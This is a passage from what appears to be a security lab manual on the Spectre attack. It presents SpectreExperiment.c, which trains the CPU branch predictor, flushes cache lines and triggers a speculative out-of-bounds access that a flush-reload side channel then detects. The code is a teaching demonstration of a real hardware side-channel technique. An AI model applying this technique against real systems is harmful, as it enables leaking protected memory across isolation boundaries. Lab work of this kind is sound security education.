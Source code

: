 

\subsection{The Experiment}

In this task, we use an experiment to observe the effect caused by
an out-of-order execution. The code used in this experiment is shown below.
Some of the functions used in the code
is the same as that in the previous tasks, so they will not be repeated. 


\begin{lstlisting}[caption=\texttt{SpectreExperiment.c}, label=spectre:list:outoforder]
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;

void victim(size_t x) 
{
  if (x < size) {                          (*@\ding{192}@*)
     temp = array[x * 4096 + DELTA];       (*@\ding{193}@*)
  }
}

int main() 
{
  int i;

  // FLUSH the probing array
  flushSideChannel();

  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {               (*@\ding{194}@*)
      victim(i);                           (*@\ding{195}@*)
  }

  // Exploit the out-of-order execution 
  _mm_clflush(&size);                      (*@\ding{80}@*)
  for (i = 0; i < 256; i++)  
      _mm_clflush(&array[i*4096 + DELTA]);
  victim(97);                              (*@\ding{196}@*)

  // RELOAD the probing array
  reloadSideChannel();
  return (0);
}
\end{lstlisting}



